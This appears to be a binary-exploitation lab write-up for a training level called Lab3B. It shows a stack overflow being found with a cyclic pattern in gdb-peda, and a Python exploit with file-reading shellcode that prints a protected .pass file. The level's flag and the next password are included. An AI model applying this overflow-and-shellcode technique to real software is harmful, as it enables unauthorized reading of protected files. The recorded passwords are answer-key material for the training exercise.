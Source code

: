## Lab3B

`th3r3_iz_n0_4dm1ns_0n1y_U!`

By reading the source we know that we need to read the .pass file directly using shellcode without spawning a shell.

To generate pattern - `https://github.com/Svenito/exploit-pattern`

`python -c "print 'x'*128 + 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A'" > /tmp/patt`

```
gdb-peda$ r < /tmp/patt
Starting program: /levels/lab03/lab3B < /tmp/patt
[New process 1165]
just give me some shellcode, k
Reading symbols from /usr/lib/debug/lib/i386-linux-gnu/libc-2.19.so...done.
Reading symbols from /usr/lib/debug/lib/i386-linux-gnu/ld-2.19.so...done.

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 1165]
[----------------------------------registers-----------------------------------]
EAX: 0x0 
EBX: 0x61413561 ('a5Aa')
ECX: 0xfbad2088 
EDX: 0xb7fce8a4 --> 0x0 
ESI: 0x0 
EDI: 0x37614136 ('6Aa7')
EBP: 0x41386141 ('Aa8A')
ESP: 0xbffff700 ("0Ab1Ab2A")
EIP: 0x62413961 ('a9Ab')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x62413961
[------------------------------------stack-------------------------------------]
0000| 0xbffff700 ("0Ab1Ab2A")
0004| 0xbffff704 ("Ab2A")
0008| 0xbffff708 --> 0xbffff700 ("0Ab1Ab2A")
0012| 0xbffff70c --> 0xb7feccea (<call_init+26>:        add    ebx,0x12316)
0016| 0xbffff710 --> 0x1 
0020| 0xbffff714 --> 0xbffff794 --> 0xbffff8b8 ("/levels/lab03/lab3B")
0024| 0xbffff718 --> 0xbffff734 --> 0x6fef40d9 
0028| 0xbffff71c --> 0x8049e80 --> 0xb7e3c990 (<__libc_start_main>:     push   ebp)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x62413961 in ?? ()
```

```
python pattern.py 0x62413961
Pattern 0x62413961 first occurrence at position 28 in pattern.
```

Therefore, offset = 128 + 28= 156

```
gdb-peda$ x/s 0xbffff700-(128+28+4)
0xbffff660:     'x' <repeats 128 times>, "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A"
```
Our shellcode is at `0xbffff660`

```
import struct

# http://shell-storm.org/shellcode/files/shellcode-73.php
shellcode = ("\x31\xc0\x31\xdb\x31\xc9\x31\xd2"
"\xeb\x32\x5b\xb0\x05\x31\xc9\xcd" 
"\x80\x89\xc6\xeb\x06\xb0\x01\x31"
"\xdb\xcd\x80\x89\xf3\xb0\x03\x83"
"\xec\x01\x8d\x0c\x24\xb2\x01\xcd" 
"\x80\x31\xdb\x39\xc3\x74\xe6\xb0" 
"\x04\xb3\x01\xb2\x01\xcd\x80\x83"
"\xc4\x01\xeb\xdf\xe8\xc9\xff\xff"
"\xff"
"/home/lab3A/.pass\x00")

eip = struct.pack("<I", 0xbffff640)
exploit = '\x90'*(128-len(shellcode)) + shellcode + '\x90'*28 + eip
print exploit
```

Address of input is different when running with and without gdb

```
$ python /tmp/lab3b.py | ./lab3B
just give me some shellcode, k
wh0_n33ds_5h3ll3_wh3n_U_h4z_s4nd
child is exiting...
```
password - **`wh0_n33ds_5h3ll3_wh3n_U_h4z_s4nd`**
